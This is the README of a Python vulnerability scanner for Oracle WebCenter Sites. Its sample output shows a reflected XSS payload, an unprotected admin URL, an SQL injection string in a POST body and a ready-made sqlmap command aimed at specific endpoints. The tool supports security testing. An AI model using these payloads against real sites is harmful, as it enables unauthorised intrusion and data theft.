 # wcs_scanner
#### WebCenter Sites Vulnerability Scanner

Scan Oracle WebCenter Sites platform looking for its known vulnerabilities.

## Usage
```bash
python3 wcs_scanner.py http://example.com
```

**Example output**
```text
[!] Start scanning http://example.com

[*] Look for default login page
[-] Default login page not found

[*] Testing XSS
[+] Possible XSS found: http://example.com/cs/Satellite?c=qqqq&cid=qqqq&pagename=OpenMarket/Gator/FlexibleAssets/AssetMaker/confirmmakeasset&cs_imagedir=qqq"><script>alert(24)</script>
[...]

[*] Testing Broken Access Control
[+] Possible Broken Access Control found: http://example.com/cs/Satellite?pagename=OpenMarket/Xcelerate/Admin/WebReferences

[*] Testing SQL Injection
[+] Possible SQLi found POST /cs/ContentServer {'_authkey_': '...', 'pagename': 'OpenMarket/Xcelerate/Admin/WebReferences', 'op': 'search', 'urlsToDelete': '', 'resultsPerPage': 25, 'searchChoice': 'webroot', 'searchText': "' or '1'='1 -- "}
[*] You should test this with sqlmap:
sqlmap --dbms Oracle --url http://example.com/cs/ContentServer --data "_authkey_=...&pagename=OpenMarket/Xcelerate/Admin/WebReferences&op=search&urlsToDelete=&resultsPerPage=25&searchChoice=webroot&searchText=*" --cookie "JSESSIONID=..." --technique U

```

## Reference:
- https://outpost24.com/blog/Vulnerabilities-discovered-in-Oracle-WebCenter-Sites
- https://www.exploit-db.com/exploits/44752


## TODO
Nuclei templates for:
- cve-2019-2579
